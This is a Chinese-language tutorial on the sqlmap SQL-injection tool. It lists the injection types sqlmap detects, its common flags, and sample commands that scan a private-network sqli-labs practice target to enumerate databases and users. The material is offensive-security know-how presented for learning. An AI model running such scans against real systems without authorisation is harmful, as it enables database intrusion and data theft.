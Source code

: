 ## SQLMAP 介绍
### SQLMAP 简介
SQLmap 是一款用来检测与利用 SQL 注入漏洞的免费开源工具，有一个非常棒的特性，即对检测与利用的自动化处理（数据库指纹、访问底层文件系统、执行命令）。
[入口](https://github.com/sqlmapproject/sqlmap)

### SQLMAP 支持的注入类型
sqlmap 支持 5 种漏洞检测类型：
1. 基于布尔的盲注检测
2. 基于时间的盲注检测
3. 基于错误的检测
4. 基于 union 联合查询的检测
5. 基于堆叠查询的检测

### SQLMAP 常用参数介绍
```shell
sqlmap --version #查看 sqlmap 版本信息。
-h #查看功能参数（常用的）
-hh #查看所有的参数
-v #显示更详细的信息 一共 7 级, 从 0-6.默认为 1, 数值越大信息显示越详细
Target #指定目标
-d #直接连接数据库侦听端口，类似于把自己当一个客户端来连接
-u #指定 url 扫描，但 url 必须存在查询参数。例: xxx.php?id=1
-l #指定 logfile 文件进行扫描，可以结合 burpsuite 把访问的记录保存成一个 log 文件, sqlmap 可以直接加载 log 文件进行扫描
-m #如果有多个 url 地址，可以把多个 url 地址保存成一个文本文件，使用m 可以加载文本文件逐个扫描
-r #把 http 的请求头，body 保存成一个文件统一提交给 sqlmap，
sqlmap 会读取内容进行拼接请求体
--timeout #指定超时时间
--retries #指定重试次数
--skip-urlencode #不进行 URL 加密
```

### SQLMAP 常用探测方式
-  探测单个目标
> sqlmap -u "http://192.168.1.63/sqli-labs/Less-1/?id=1"
- 探测多个目标 
```shell
vim xuegod.txt
http://192.168.1.63/sqli-labs/Less-1/?id=1
http://192.168.1.63/sqli-labs/Less-2/?id=1
http://192.168.1.63/sqli-labs/Less-3/?id=1

sqlmap -m xuegod.txt --dbs --users
-m #指定文件进行探测
--dbs #探测可用数据库名称
--users #探测数据库用户名称
```
- 从文件加载 HTTP 请求进行探测 -r 用来指定 HTTP 请求文件
```shell
sqlmap -r Cookie.txt --level 3 --batch –dbs
#--level 检测级别，取值（1-5）默认情况下 Sqlmap 会测试所有 GET 参数和 POST 参数，当 level
#大于等于 2 时会测试 cookie 参数，当 level 大于等于 3 时会测试 User-Agent 和 Referer，当 level=5时会测试 Host 头。
```

- 从 burpsuite 日志记录中进行探测
> sqlmap -l burpsuite.txt --leve 3 --dbs --batch
